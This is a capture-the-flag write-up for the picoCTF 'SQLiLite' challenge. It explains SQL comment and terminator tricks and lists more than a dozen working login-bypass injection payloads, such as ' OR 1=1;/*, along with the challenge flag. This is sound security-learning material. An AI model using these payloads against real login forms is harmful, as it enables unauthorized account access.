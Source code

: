 ![Task desc](../assets/images/SQLiLite_image_1.png)

This task involves the use of classic SQL injection.

---

The web application expects a normal request of type:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


We need:

* close the name field: `name=' '`
* add a condition that will always return `true`
* truncate the rest of the query 

The last condition can be done by inserting a comment symbol or end of query symbol:


```sql
comments in SQL (worked with this task):
#
--
/* */ (open close)
;%00	Nullbyte

end of query:
;
```


Therefore, according to these rules, we will form a simple injection:


```sql
' OR 1=1;/*
```


![image_2](../assets/images/SQLiLite_image_2.png)


I experimented with queries, tried to compose my own injections, and tried several options from [SQLi payload list](https://github.com/payloadbox/sql-injection-payload-list). List of injections that also worked:

> [TIP]
> I wrote a note to SQLi while solving this task, I left it here: [*click*](../../notes/Understanding%20SQL%20Injections.md)

```
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1;                # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /*    # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00              # every int/float/double number passes
33' OR 1=1 -- 
```


Make sure there is an odd number of brackets in the payload


```sql
SQL query: SELECT * FROM users WHERE name='''' OR 1=1;' AND password='123123'
```


`picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}`
